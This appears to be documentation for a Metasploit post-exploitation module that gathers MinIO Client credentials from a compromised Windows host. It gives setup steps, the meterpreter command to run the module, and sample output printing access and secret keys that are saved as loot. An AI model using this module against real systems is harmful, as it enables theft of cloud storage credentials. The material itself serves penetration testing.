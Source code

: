 ### Installation Steps

  1. Download the latest installer of MinIO Client (https://dl.min.io/client/mc/release/windows-amd64/mc.exe).
  2. Run `mc alias set myminio https://play.min.io minioadmin minioadmin`.
  3. Run `mc admin info myminio`,check for working.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/minio_client```
  3. If the configuration file is found in the system, it will be printed out

## Options

 **CONFIG_PATH**

- Specifies the config file path for MinIO Client
- eg. `C:\Users\FireEye\mc\config.json`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/minio_client CONFIG_PATH="C:\Users\FireEye\mc\config.json"

[*] Parsing file C:\Users\FireEye\mc\config.json
MinIO Client Key
================

name     url                             accessKey             secretKey                                 api   path
----     ---                             ---------             ---------                                 ---   ----
gcs      https://storage.googleapis.com  YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v2  dns
local    http://localhost:9000                                                                           S3v4  auto
myminio  https://play.min.io             minioadmin            minioadmin                                s3v4  auto
play     https://play.min.io             Q3AM3UQ867SPQQA43P2F  zuf+tfteSlswRu7BJ86wekitnifILbZam1KYY3TG  S3v4  auto
s3       https://s3.amazonaws.com        YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v4  dns

[+] Session info stored in: /home/kali-team/.msf4/loot/20221206193240_default_172.16.153.128_host.minio_756923.txt
```

